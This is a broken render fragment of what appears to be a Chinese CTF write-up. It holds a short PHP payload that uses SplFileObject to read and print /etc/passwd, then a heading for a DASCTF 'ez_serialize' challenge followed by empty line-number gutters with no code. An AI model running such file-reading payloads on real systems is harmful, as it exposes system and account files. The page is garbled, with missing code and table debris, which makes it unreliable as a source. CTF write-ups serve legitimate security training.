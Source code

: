``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5  
    

|

    
    
      
    $context = new  SplFileObject ( '/etc/passwd' );   
    foreach ( $context  as  $f ){ echo ( $f ); }  
          
      
      
  
---|---  
  
`  
`

`![]()`

## `[2021 MAR DASCTF 明御攻防赛]ez_serialize`

`进入题目，提交源码：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7   
    8   
    9   
    10   
    11   
    12   
    13   
    14   
    15   
    16   
    17   
    18   
    19   
    20   
    21   
    22   
    23   
    24   
    25   